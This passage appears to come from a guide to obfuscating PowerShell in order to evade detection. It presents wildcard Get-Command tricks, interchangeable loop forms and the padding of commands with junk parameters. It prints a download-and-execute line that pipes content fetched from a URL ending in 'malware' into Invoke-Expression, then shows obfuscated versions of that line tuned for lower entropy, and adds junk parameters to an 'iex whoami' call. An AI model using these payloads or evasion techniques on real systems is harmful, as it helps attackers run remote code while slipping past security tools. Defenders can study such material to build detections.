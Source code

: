 


## Get-Command Technique
A really cool trick my friend and mighty haxor Karol Musolff ([@kmusolff](https://github.com/kmusolff)) showed me. You can use `Get-Command` (or `gcm`) to retrieve the name (string) of any command, including all of the non-PowerShell files in the Path environment variable (`$env:Path`) by using wildcards. You can then run them as jobs with the `&` operator. For example, the following line:
```powershell
Invoke-RestMethod -uri https://192.168.0.66/malware | iex
```
Could be obfuscated to:
```powershell
&(Get-Command i????e-rest*) -uri https://192.168.0.66/malware | &(gcm i*x)
```
Or even better, this one, that has a lower `Shannon entropy` value:
```powershell
&(Get-Command i************************************************************e-rest*) -uri https://192.168.0.66/malware | &(gcm i*x)
```

## Substitute Loops
There are certain loops that can be substituted with other loop types or functions. For example, a `While ($True){ # some code }` loop can be substituted with the following:  
**An infinite For loop**
```powershell
For (;;) { # some code }
```
**A Do-While loop**
```powershell
Do { # some code } While ($true)
```
**A Do-Until loop**
```powershell
Do { # some code } Until (1 -eq 2)
```
**A recursive function**
```powershell
function runToInfinity { 
 # do something;  
 runToInfinity;
}
```

## Append Junk 

### Add/Remove parameters
You can try adding parameters to a cmdlet. For example, the following line:
```powershell
iex "whoami"
```

Could be expanded to:
```powershell
iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire "whoami"
```
You may of course try the opposite.
